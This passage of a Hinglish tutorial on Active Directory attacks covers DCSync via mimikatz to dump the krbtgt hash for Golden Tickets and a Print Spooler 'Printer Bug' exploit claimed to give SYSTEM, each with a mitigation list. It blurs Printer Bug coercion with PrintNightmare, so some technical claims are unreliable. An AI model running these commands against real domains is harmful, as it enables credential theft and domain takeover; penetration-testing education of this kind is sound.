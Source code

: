 CopyEdit

`Get-ADUser -Filter * -Properties "Replicating Directory Changes"`

📌 **Agar attacker ne DA ya high-privileged user access le liya, toh DCSync execute karega:**

powershell

CopyEdit

`mimikatz.exe lsadump::dcsync /domain:<DOMAIN> /user:krbtgt`

🔥 **Boom! Yeh command directly krbtgt ka NTLM hash de degi, jisse Golden Ticket attack possible hai.**

✅ **Mitigation:**

- **Domain Controllers ke replication permissions sirf trusted users ko do.**
    
- **Event ID 4662 aur 4742 monitor karo kyunki yeh DCSync detection me help karta hai.**
    
- **krbtgt ka password regular interval pe rotate karo.**
    

---

## **3️⃣ 🏴‍☠️ Printer Bug Attack (MS-RPRN Exploit)**

✅ **Kya Hai?**

- **Windows Print Spooler Service** ka **Remote Procedure Call (RPC)** feature **low-privileged users ko SYSTEM privilege lene** ka option deta hai.
    
- Yeh **Windows ka ek legacy bug hai jo ab tak kayi variations me exploit ho chuka hai (PrintNightmare, MS-RPRN, CVE-2021-1675, CVE-2021-34527)**.
    

✅ **Kaise Exploit Kare?** 📌 **Check karo ki target machine pe Print Spooler enabled hai ya nahi:**

powershell

CopyEdit

`sc qc Spooler`

📌 **MS-RPRN exploit execute karo aur target machine pe arbitrary DLL load kar do:**

powershell

CopyEdit

`Invoke-PrinterBug -ComputerName "victim-PC"`

🔥 **Agar successful hua, toh attacker SYSTEM privilege me commands execute kar sakta hai!**

✅ **Mitigation:**

- **Agar Print Spooler service ki zaroorat nahi hai toh isko disable kar do:**
    

powershell

CopyEdit
